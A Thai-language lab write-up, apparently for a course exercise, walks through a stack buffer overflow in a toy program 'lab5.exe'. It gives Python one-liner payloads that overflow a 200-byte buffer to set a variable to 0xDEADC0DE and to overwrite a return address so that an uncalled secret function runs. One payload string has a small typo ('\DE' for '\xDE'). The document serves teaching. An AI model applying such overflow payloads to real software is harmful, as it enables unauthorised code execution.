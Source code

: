 ```bash
python -c "print('abc')" | lab5.exe 
```

ซึ่งตรงนี้สามารถเรียกโปรแกรม lab5 ขึ้นมาพร้อมกับใส่ input abc เข้าไปในโปรแกรมได้เลยทันทีแต่การจะเข้า condition นั้นใช้วิธีนี้

```bash
python -c "print('a' * 204 + '\xDE\xC0\xAD\DE')" | lab5.exe
```

ซึ่ง 'a' * 204 + '\xDE\xC0\xAD\DE' นั้นมีความหมายแบบโดยให้ a เป็น string ตัวแรกคูณด้วย 204 ซึ่งจะมี a ทั้งหมด 204 ตัวบวกด้วย reverse ของ 0xDEADC0DE ซึ่งก็คือ 0xDEC0ADDE
ซึ่ง 0xDEC0ADDE ใน hex นั้นจะเป็น string เพิ่มมาอีก 4 ตัวแล้วลองกด enter เพื่อใส่เข้าไปก็สามารถผ่าน if else ได้เลย เดิมที name[200] มันเก็บ string ได้แค่ 200 แต่จริงๆแล้วมันสามารถเก็บได้เกินตัวมันอีกแหน่ะ ซึ่งตัวนี้ **0xdc** ในทาง decimal มันมีค่าถึง 220 เลย ซึ่งหมายความว่ามันจองหน่วยความจำไว้ 220 ช่องนั่นเอง ส่วน 'a' * 204 + '\xDE\xC0\xAD\DE' ซึ่ง 204 ทำไมถึงต้องเป็น 204 น่ะหรอ มันเกิดจากการ shift เลข bit นั่นแหละซึ่งเราลองเปลี่ยนเลขไปเรื่อยก็ได้แบบนี้

```bash
'a' * 208 + '\xDE\xC0\xAD\DE' -> hex=61616161 # ของ a เท่ากับ address b ละ
'a' * 207 + '\xDE\xC0\xAD\DE' -> hex=de616161 # ของ a
'a' * 206 + '\xDE\xC0\xAD\DE' -> hex=c0de6161 # ของ a
'a' * 205 + '\xDE\xC0\xAD\DE' -> hex=adc0de61 # ของ a
'a' * 204 + '\xDE\xC0\xAD\DE' -> hex=deadc0de # ของ a ที่เราต้องการ
'a' * 203 + '\xDE\xC0\xAD\DE' -> hex=00deadc0 # ของ a
'a' * 202 + '\xDE\xC0\xAD\DE' -> hex=1100dead # ของ a
'a' * 201 + '\xDE\xC0\xAD\DE' -> hex=112200de # ของ a
'a' * 200 + '\xDE\xC0\xAD\DE' -> hex=11223300 # ของ a
'a' * 199 + '\xDE\xC0\xAD\DE' -> hex=11223344 # ของ a
```

```bash
\xDE\xAD\xC0\xDE  # DEADC0DE จาก if a = 0xDEADC0DE
# ให้เรามองค่า hex แบบย้อนกลับจะสามารถนำมาใช้ได้ 0xDEADC0DE 
# 0xDEADC0DE มองย้อนกลับจะได้ 0xDEC0ADDE
\xDE\xC0\xAD\DE # แบบนี้
```

## เรียกฟังก์ชั่นที่ไม่ได้มีใครเรียก
```C++
void secret_function(){
	printf("************************************************************\n");
	printf("  Congratulation!! You have access to the secret function.\n");
	printf("************************************************************\n");
}
```

ซึ่ง secret_function() อ่ะมันมีเลข address เป้น 00401356 ใช่ป่ะให้เราเก็บไว้ในใจก่อนแล้วนำมันมา reverse เลย

```bash

00401356
\x00\x40\x13\x56  -> Hexadecimal
\x56\x13\x40\x00  -> Hexadecimal Reverse # เราจะใช้ตัวนี้
  V   ‼   @  null -> Symbol
# จะเห็นได้ว่ามีค่าแค่ 3 ตัวเท่านั้น 

```
โค้ดที่ใช้คือตัวนี้
```bash
Python -c  "print('a' * 220 +  '\x56\x13\x40\x00')" | lab5.exe
```
เดิมที name[200] มันเก็บ string ได้แค่ 200 แต่จริงๆแล้วมันสามารถเก็บได้เกินตัวมันอีกแหน่ะ ซึ่งตัวนี้ **0xdc** ในทาง decimal มันมีค่าถึง 220 เลย ซึ่งหมายความว่ามันจองหน่วยความจำไว้ 220 ช่องนั่นเอง
